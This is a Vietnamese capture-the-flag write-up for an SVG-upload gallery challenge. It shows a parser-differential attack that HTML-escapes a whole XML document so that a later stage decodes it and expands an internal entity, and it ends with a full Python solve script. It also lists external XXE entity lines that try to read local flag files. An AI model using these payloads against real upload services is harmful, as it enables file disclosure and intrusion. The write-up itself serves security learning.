

## Đề bài

*opening-night*

*Description*

*The new gallery opens tonight.*

*Instance: `https://opening-night-<instance>.tjc.tf` (link might expired)*

*Hint*

*Two curators inspect each piece uploaded: one hangs the painting, and the other writes the label below.*  
*The one who hangs it is careful; the one who writes the label, not quite.*

*The gatekeeper only checks that your file looks like an SVG at the top.*  
*The one who writes the label takes the first title/desc it sees by name, and not by the true namespace or intent.*  
*Don't look for new rooms in the art gallery, just change how your art is presented and wrapped before it arrives!*

*Your payload must survive two different interpretations. One as just harmless text, and the other one as XML.*

*The trick is not a hidden endpoint or browser JS execution. Keep your payload in the normal upload flow, and think about one stage decoding text before another stage parses XML metadata.*

## Hướng giải

Bài này ban đầu nhìn khá giống một bài upload SVG rồi XXE bình thường, nhưng thật ra không đơn giản như vậy. Website hoạt động như một phòng triển lãm tranh: mình upload một file SVG, server hiển thị artwork đó trong catalog, kèm theo title, description và size của SVG.

Sau khi upload thành công, response sẽ render một article kiểu như sau:

```html
<article>
  <div class="caption">
    <h2>some title</h2>
    <p>some description</p>
    <dl>
      <dt>Size</dt>
      <dd>700 x 160</dd>
    </dl>
  </div>
</article>
```

Như vậy sink quan sát được chỉ có vài chỗ: title trong `<h2>`, description trong `<p>`, và size trong `<dd>`.

### Manh mối đầu tiên: parser viết label bỏ qua namespace

Hint nói người viết label lấy `title` / `desc` đầu tiên mà nó thấy "by name", chứ không lấy theo namespace hoặc intent thật sự. Vì vậy ta không chỉ test SVG metadata bình thường:

```xml
<title>SAFE_TITLE</title>
<desc>SAFE_DESC</desc>
```

Mình thử đặt một `title` và `desc` giả trong namespace khác:

```xml
<svg xmlns="http://www.w3.org/2000/svg" width="700" height="160">
  <metadata>
    <x:title xmlns:x="urn:not-svg">MARK_CUSTOM_TITLE</x:title>
    <x:desc xmlns:x="urn:not-svg">MARK_CUSTOM_DESC</x:desc>
  </metadata>

  <title>SAFE_TITLE</title>
  <desc>SAFE_DESC</desc>
  <rect width="700" height="160" fill="white"/>
</svg>
```

Kết quả server render:

```text
h2: 'MARK_CUSTOM_TITLE'
p : 'MARK_CUSTOM_DESC'
```

Tới đây có thể xác nhận bug đầu tiên: labeler không kiểm tra namespace SVG thật. Nó có thể đang dùng kiểu `find("title")` hoặc `//*[local-name()="title"]`, nên chỉ cần local-name là `title` / `desc` thì nó lấy luôn.

Nếu xử lý SVG đúng chuẩn, nó chỉ nên lấy những node sau:

```text
{http://www.w3.org/2000/svg}title
{http://www.w3.org/2000/svg}desc
```

Nhưng ở đây tag sai namespace như sau vẫn được dùng làm metadata:

```xml
<x:title xmlns:x="urn:not-svg">...</x:title>
<x:desc xmlns:x="urn:not-svg">...</x:desc>
```

Bug này cho ta control title và description, nhưng vẫn chưa đủ để lấy flag.

### Hướng sai 1: raw DOCTYPE không expand trong label

Ý tưởng tiếp theo là thử entity expansion. Mình gửi raw XML có internal entity:

```xml
<!DOCTYPE svg [
  <!ENTITY e "ENTITY_OK">
]>
<svg xmlns="http://www.w3.org/2000/svg" width="700" height="160">
  <metadata>
    <x:title xmlns:x="urn:not-svg">&e;</x:title>
    <x:desc xmlns:x="urn:not-svg">DESC</x:desc>
  </metadata>
</svg>
```

Nhưng output lại là:

```text
h2: '&e;'
p : 'DESC'
```

Tức là trong flow raw SVG bình thường, label parser không expand entity. Đây là một cái bẫy khá khó chịu, vì nếu dừng ở đây thì rất dễ kết luận sai rằng bài này không thể dùng entity expansion.

### Hướng sai 2: external XXE và XInclude đều bị chặn

Mình cũng thử các payload external XXE quen thuộc:

```xml
<!ENTITY xxe SYSTEM "file:///flag">
<!ENTITY xxe SYSTEM "file:///flag.txt">
<!ENTITY xxe SYSTEM "file:///app/flag.txt">
```

Không có leak gì cả. Sau đó mình thử OOB parameter entity với `webhook.site`, nhưng webhook không nhận request nào. Điều này cho thấy external entity loading đã bị tắt.

Mình cũng thử XInclude:

```xml
<xi:include href="file:///flag" parse="text"/>
```

Server không process XInclude. Vì vậy đây không phải bài đọc `/flag` bằng XXE cơ bản.

### Hướng sai 3: multipart confusion và SSTI không phải bug

Do hint nói về việc "wrapped before it arrives", mình tiếp tục test multipart confusion:

- `piece` vừa là text field vừa là file field;
- duplicate nhiều file part cùng tên `piece`;
- `Content-Transfer-Encoding: quoted-printable`;
- `Content-Transfer-Encoding: base64`.

Nhưng app lấy file part thật khá nhất quán và bỏ qua text part. Upload base64 thì bị intake desk reject.

Mình cũng test SSTI trong label:

```text
{{7*7}}
```

Response in nguyên:

```text
{{7*7}}
```

Vậy SSTI cũng không liên quan.

### Primitive thật: HTML-unescape toàn bộ file rồi parse lại XML

Câu quan trọng nhất trong hint là:

> Your payload must survive two different interpretations. One as just harmless text, and the other one as XML.

Lúc đầu mình có thử nhét XML đã escape vào bên trong `x:title`. Cách đó có vẻ gần đúng, nhưng khi thêm `DOCTYPE` thì fail, vì sau khi decode, `DOCTYPE` nằm giữa một element XML:

```xml
<x:title>
  <!DOCTYPE svg [...]>
  <svg>...</svg>
</x:title>
```

Trong XML, `DOCTYPE` phải nằm ở đầu document, không được nằm bên trong element.

Cách đúng là HTML-escape **toàn bộ XML document**.

Ví dụ đây là XML mà mình muốn parser thứ hai nhìn thấy:

```xml
<svg xmlns="http://www.w3.org/2000/svg" width="700" height="160">
  <metadata>
    <x:title xmlns:x="urn:not-svg">WHOLE_TITLE</x:title>
    <x:desc xmlns:x="urn:not-svg">WHOLE_DESC</x:desc>
  </metadata>
  <rect width="100%" height="100%" fill="white"/>
</svg>
```

Nhưng file upload thật sự là document đó sau khi HTML-escape một lần:

```html
&lt;svg xmlns=&quot;http://www.w3.org/2000/svg&quot; width=&quot;700&quot; height=&quot;160&quot;&gt;
  &lt;metadata&gt;
    &lt;x:title xmlns:x=&quot;urn:not-svg&quot;&gt;WHOLE_TITLE&lt;/x:title&gt;
    &lt;x:desc xmlns:x=&quot;urn:not-svg&quot;&gt;WHOLE_DESC&lt;/x:desc&gt;
  &lt;/metadata&gt;
  &lt;rect width=&quot;100%&quot; height=&quot;100%&quot; fill=&quot;white&quot;/&gt;
&lt;/svg&gt;
```

Kết quả upload:

```text
h2: 'WHOLE_TITLE'
p : 'WHOLE_DESC'
dd: ['700 x 160']
```

Điều này chứng minh server có một stage decode HTML entities thành XML thật, rồi stage khác parse XML đã decode đó để lấy metadata.

Đây chính là ý của hint: cùng một payload sống sót qua hai cách hiểu khác nhau.

### Bước cuối: internal entity expansion trong decoded XML path

Bây giờ ta có thể đặt `DOCTYPE` ở đúng đầu XML document sau khi decode.

XML thật trước khi escape:

```xml
<!DOCTYPE svg [
  <!ENTITY e "FINAL_ENTITY_OK">
]>
<svg xmlns="http://www.w3.org/2000/svg" width="700" height="160">
  <metadata>
    <x:title xmlns:x="urn:not-svg">&e;</x:title>
    <x:desc xmlns:x="urn:not-svg">FINAL_DESC</x:desc>
  </metadata>
  <title>SAFE</title>
  <desc>SAFE</desc>
  <rect width="100%" height="100%" fill="white"/>
</svg>
```

Payload gửi lên là toàn bộ đoạn XML trên sau khi escape một lần:

```html
&lt;!DOCTYPE svg [
  &lt;!ENTITY e &quot;FINAL_ENTITY_OK&quot;&gt;
]&gt;
&lt;svg xmlns=&quot;http://www.w3.org/2000/svg&quot; ...
```

Sau khi server decode, XML parser thấy một document thật có `DOCTYPE` thật. Lần này internal entity được expand thành công. Khi primitive đúng được trigger, challenge trả flag.

## Final Exploit

```python
#!/usr/bin/env python3
import html
import re
import sys
import time
from urllib.parse import urljoin

import requests

BASE = sys.argv[1].strip("'\"").rstrip("/")
FLAG_RE = re.compile(r"tjctf\{[^}]+\}", re.I)


def find_form(session):
    r = session.get(BASE + "/", timeout=20)

    form = re.search(r"(?is)<form\b[^>]*>.*?</form>", r.text)
    if not form:
        return BASE + "/submit", "piece"

    form = form.group(0)

    action_m = re.search(r'''(?is)\baction=["']?([^"'\s>]*)''', form)
    action = urljoin(BASE + "/", action_m.group(1) if action_m else "/submit")

    field = "piece"
    file_m = re.search(r'''(?is)<input\b[^>]*type=["']?file["']?[^>]*>''', form)
    if file_m:
        name_m = re.search(r'''(?is)\bname=["']([^"']+)["']''', file_m.group(0))
        if name_m:
            field = name_m.group(1)

    return action, field


def build_payload():
    inner_xml = '''<!DOCTYPE svg [
  <!ENTITY e "FINAL_ENTITY_OK">
]>
<svg xmlns="http://www.w3.org/2000/svg" width="700" height="160">
  <metadata>
    <x:title xmlns:x="urn:not-svg">&e;</x:title>
    <x:desc xmlns:x="urn:not-svg">FINAL_DESC</x:desc>
  </metadata>
  <title>SAFE</title>
  <desc>SAFE</desc>
  <rect width="100%" height="100%" fill="white"/>
</svg>
'''

    # Điểm quan trọng: escape toàn bộ XML document đúng một lần.
    return html.escape(inner_xml, quote=True).encode()


def main():
    s = requests.Session()
    action, field = find_form(s)

    payload = build_payload()

    for _ in range(10):
        r = s.post(
            action,
            files={field: ("opening.svg", payload, "image/svg+xml")},
            allow_redirects=True,
            timeout=30,
        )

        wait = re.search(r"Try again in (\d+) seconds", r.text)
        if wait:
            t = int(wait.group(1)) + 1
            print(f"[*] rate limited, sleeping {t}s")
            time.sleep(t)
            continue

        m = FLAG_RE.search(r.text)
        if m:
            print("[+] FLAG:", m.group(0))
            return

        print("[!] No flag in response.")
        print(r.text[:1000])
        return

    print("[!] Failed due to repeated rate limits.")


if __name__ == "__main__":
    main()
```

Chạy như sau:

```bash
python3 solve.py 'https://opening-night-<instance>.tjc.tf'
```

Output:

```text
[+] FLAG: tjctf{y0ur_4r7w0rk_is_n0w_0n_displ4y}
```

## Vì sao exploit hoạt động?

Lỗ hổng nằm ở parser differential giữa nhiều stage xử lý cùng một upload.

Stage đầu nhìn payload như text đã HTML-escape:

```html
&lt;svg&gt;...&lt;/svg&gt;
```

Stage sau decode nó thành XML thật:

```xml
<svg>...</svg>
```

Sau đó cataloger parse XML đã decode, expand internal entity, rồi lấy `title` / `desc` đầu tiên theo tên tag. Vì parser này không check namespace, `x:title` và `x:desc` của mình vẫn được dùng làm metadata.

Flow tóm gọn:

```text
HTML-escaped XML file
        ↓ html.unescape()
real XML document with DOCTYPE
        ↓ XML parse with internal entity expansion
x:title becomes FINAL_ENTITY_OK
        ↓ challenge success condition
flag
```

## Lời kết

Bài này khá hay vì nó không phải kiểu "upload SVG rồi đọc `/flag` bằng XXE" đơn giản. Mình đã thử raw XXE, external entity, XInclude, webhook OOB, multipart confusion và SSTI, nhưng tất cả đều không phải hướng chính.

Bug thật sự là sự kết hợp của:

1. metadata extractor bỏ qua namespace;
2. upload content bị decode trước khi parse XML;
3. internal entity expansion hoạt động trong decoded XML path.

Khi đặt được `DOCTYPE` ở đầu XML document sau khi decode, internal entity expansion hoạt động và challenge trả flag.

```
tjctf{y0ur_4r7w0rk_is_n0w_0n_displ4y}
```

"Ein schlechter Handwerker gibt seinen Werkzeugen die Schuld." - Don't blame ChatGPT if you cannot solve :D


